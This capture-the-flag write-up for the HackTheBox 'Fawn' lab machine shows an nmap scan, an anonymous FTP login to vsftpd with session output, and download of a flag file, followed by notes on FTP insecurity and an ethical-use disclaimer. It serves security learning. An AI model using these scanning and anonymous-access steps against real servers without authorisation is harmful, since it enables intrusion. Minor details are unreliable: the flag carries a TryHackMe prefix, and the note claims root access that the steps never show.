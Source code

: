 # HackTheBox - Fawn (FTP CTF)

## Challenge Info

* Platform: HackTheBox
* Challenge Name: Fawn
* Category: Network (FTP)
* Difficulty: Very Easy
* Status: Solved Theoretically (can't spawn machine, already solved)

## Task Description
* We have been given access to a machine which is already vulnerable, The task is to enumerate it(Gather as much detailed information as possible about the target system), identify open ports, and exploit them to gain access.

## Thought Process & Methodology
## Enumeration

### Step 1: Nmap Scan

* Firstly we are going to use `nmap` to find which port is open
    `nmap -sC -sV <target-ip>`
  * -sC is just we telling nmap to use your own default script like service detection, banner grabbing etc.
  * -sV is to detect the version of ports
  * `nmap -A <target-ip>` -> -sC + -sV = -A (Agressive Scan)
  * Result:
    ```bash
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
  * This shows that ftp (port 21) is open.

### Step 2: Connection

* To connect with the ftp port we use `ftp <target-ip>`
* After you are connected, you'll be asked for a username we will be using `anonymous` because you can login without having an account
* Result:
  ```bash
  ftp 10.129.117.38
  Connected to 10.129.117.38.
  220 (vsFTPd 3.0.3)
  Name (10.129.117.38:kali): anonymous
  331 Please specify the password.
  Password: -> (No Passowrd Required)
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp>

### Exploring The System

* Once you are logged you'll see something like this `ftp>`
* Now we can access directories by using `cd`(Change Directory)
* To view contents of the directory `ls`(list) is used
  ```bash
  ftp> ls
  229 Entering Extended Passive Mode (|||13761|)
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0              32 Aug 30  2025 flag.txt
  226 Directory send OK.
  ftp>
   
* Most importantly, in a CTF we would look for the flag
* To download files from an ftp server you need to use `get` command
  ```bash
   ftp> get flag.txt
  local: flag.txt remote: flag.txt
  229 Entering Extended Passive Mode (|||20395|)
  150 Opening BINARY mode data connection for flag.txt (32 bytes).
  100% |**************************************************|    32      146.71 KiB/s    00:00 ETA
  226 Transfer complete.
  32 bytes received in 00:00 (0.45 KiB/s)
  ftp>
  ┌──(root㉿recognized)-[/home/recognized]
  └─# cat flag.txt 
  THM{c0ngr4ts_y0u_own3d_ftp}
  
## What is FTP?
* FTP is a standard network protocol that uses a client-server model (client "request" and server "provides") for transferring files between computers over TCP/IP networks.
* It relies on separate control and data connections, allowing a user to upload (put) or download (get) files to or from an FTP server.
* While useful, FTP is insecure as it transfers data in plain text, making SFTP (Secure File Transfer Protocol) modern alternative for secure data transfer.

## TakeAway
* Learned to use nmap with -sC, -sV, and -A for detailed enumeration
* Discovered that FTP (port 21) was open and vulnerable to anonymous login
* Practiced connecting to an FTP server and navigating directories (cd, ls)
* Retrieved files using the get command in FTP
* Found and read the flag.txt file successfully
* Understood why FTP is insecure (plain-text communication, no encryption) and why SFTP/SSH is the preferred secure alternative

## Note
* This is a practice scenario. Machines on platforms like TryHackMe are intentionally vulnerable
* In real-world situations, gaining root access this easily is highly unlikely.
> If you enumerate properly, the exploit usually reveals itself

## Disclaimer

You may use this Knowledge:

* To learn security concepts
* For testing in controlled environments with explicit permission
* As part of ethical hacking or cybersecurity research

You may not use this Knowledge:

* For unauthorized access to systems
* To harm, disrupt, or compromise any network, server, or individual

By reading this write-up, you agree that any and all responsibility lies with you, the user.
